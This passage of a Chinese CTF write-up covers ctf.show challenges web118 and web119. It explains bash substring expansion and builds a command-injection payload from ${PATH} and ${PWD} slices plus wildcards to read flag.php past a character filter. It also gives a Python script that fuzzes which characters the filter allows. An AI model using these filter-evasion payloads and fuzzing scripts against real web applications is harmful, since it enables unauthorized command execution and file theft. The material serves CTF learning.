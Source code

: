 ```
strlen()被ban
重写：
function strlen_u($s){
    $n = 0;
    while($s[$n++]){
    }
    return $n-1;
}
```



#### web118 shell的字符串截取

参考：http://c.biancheng.net/view/1120.html

使用`${#}`获取变量字符串长度。

```bash
${string: start :length}
${string:~0} 或者 ${string:~A}都是取最后一个字符
```

其中，string 是要截取的字符串，start 是起始位置（从左边开始，从 0 开始计数），length 是要截取的长度（省略的话表示直到字符串的末尾）

此题利用PATH和PWD构造出 nl 命令，再配合通配符，读取flag.php

```bash
${PWD}          /var/www/html
${PWD:~0}     l
${PATH}         /bin
${PATH:~0}    n
${PATH:~A}${PWD:~A}$IFS????.???
```



#### web119 更多路径构造命令

提供一个fuzzy测试脚本：

```python
import requests
import string
url = "http://1260c402-b071-4fae-99c2-0b86eff2036e.challenge.ctf.show/"
list = string.ascii_letters+string.digits+"$+-#}{_><:?*.~/\\ "
white_list = ""
for payload in list:
    data = {
        "code" : payload
    }
    res = requests.post(url, data=data)
    if "evil input" not in res.text:
        print(payload)
        white_list += payload
print(white_list.replace(" ","空格"))
# 白名单：ABCDEFGHIJKLMNOPQRSTUVWXYZ$#}{_:?.~空格
```
